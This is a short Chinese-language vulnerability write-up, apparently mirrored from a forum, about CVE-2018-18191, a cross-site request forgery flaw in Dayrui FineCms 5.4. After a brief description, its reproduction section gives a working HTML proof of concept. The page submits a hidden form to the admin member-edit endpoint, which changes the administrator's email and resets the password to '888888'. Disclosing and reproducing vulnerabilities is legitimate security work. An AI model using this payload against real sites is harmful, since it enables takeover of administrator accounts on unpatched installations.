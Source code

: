 # （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2943](https://www.zhihuifly.com/t/topic/2943)

# （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞

## 一、漏洞简介

Dayrui FineCms是中国天睿（Dayrui）程序设计团队发布的一套使用MVC架构和PDO数据库接口开发的内容管理系统（CMS）。 Dayrui FineCms 5.4版本中的/admin.php?c=member&m=edit&uid=1存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

## 二、漏洞影响

Finecms 5.4

## 三、复现过程

### poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
      <input type="hidden" name="page" value="0" />
      <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
      <input type="hidden" name="member&#91;name&#93;" value="admin" />
      <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
      <input type="hidden" name="member&#91;password&#93;" value="888888" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```